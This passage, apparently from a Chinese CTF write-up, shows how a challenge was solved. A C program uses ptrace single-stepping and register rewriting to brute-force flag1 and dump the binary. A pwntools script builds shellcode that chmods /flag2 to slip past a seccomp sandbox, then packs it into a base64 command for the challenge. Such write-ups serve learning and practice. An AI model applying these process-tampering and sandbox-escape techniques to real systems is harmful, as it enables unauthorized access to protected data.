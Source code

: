 手动分析执行流，猜测 0x1f2a 处有一个判断 flag 的循环。于是写代码不停对这个循环进行单步调试，可以获取到 flag1 的每一位。

```c
u_int64_t addr;
while (1) {
    ptrace(PTRACE_SINGLESTEP, pid, NULL, NULL);
    struct user_regs_struct regs;
    ptrace(PTRACE_GETREGS, pid, NULL, &regs);
    if ((regs.rcx >> 44) == 5) {
        addr = regs.rcx - 0x40;
        break;
    }
}
fprintf(stderr, "base addr: %lx\n", addr);
char res[100]={};
for(int i=0;i<100;i++){
    struct user_regs_struct regs;
    for(int j=0;j<256;j++){
        ptrace(PTRACE_GETREGS, pid, NULL, &regs);
        regs.rip=addr+0x1f2a;
        regs.rdi=addr+0x5040;
        regs.rsi=addr+0x5120;
        regs.rax=j;
        regs.rcx=i;
        ptrace(PTRACE_SETREGS, pid, NULL, &regs);
        ptrace(PTRACE_SINGLESTEP, pid, NULL, NULL);
        ptrace(PTRACE_SINGLESTEP, pid, NULL, NULL);
        ptrace(PTRACE_GETREGS, pid, NULL, &regs);
        if(regs.rip==addr+0x1f2f){
            res[i]=j;
            printf("%d %d\n",i,j);
            break;
        }
    }
    fprintf(stderr, "%d %s\n", i, res);
}
```

同时也可以将他比较的地址改成 ELF 里其他位置的地址，就能 dump 出整个文件了。

逆向后发现，他会读取一段 shellcode，并在 `seccomp` 沙箱里执行。但是这个沙箱似乎只是对 `open` 做出了限制，于是我们可以把 `/flag2` chmod 掉，然后退出去再直接读取。

```python
from pwn import *
import os, gzip, base64, subprocess
context.arch = 'amd64'
context.bits = 64
context.log_level = 'debug'

shellcode = shellcraft.pushstr('/flag2')
shellcode += shellcraft.chmod('rsp', 0o644)

payload = asm(shellcode).ljust(0x1000, b'\x90')
open('/tmp/1.bin', 'wb').write(b'flag{ptr4ce_m3_4nd_1_w1ll_4lways_b3_th3r3_f0r_u}\n' + payload + b'\necho 123\n')
s = subprocess.getoutput('cat /tmp/1.bin | gzip -9 | base64').strip().replace('\n', '')

print('echo %s | base64 -d | gzip -d > /tmp/flag\n/chall < /tmp/flag\n' % s)
```
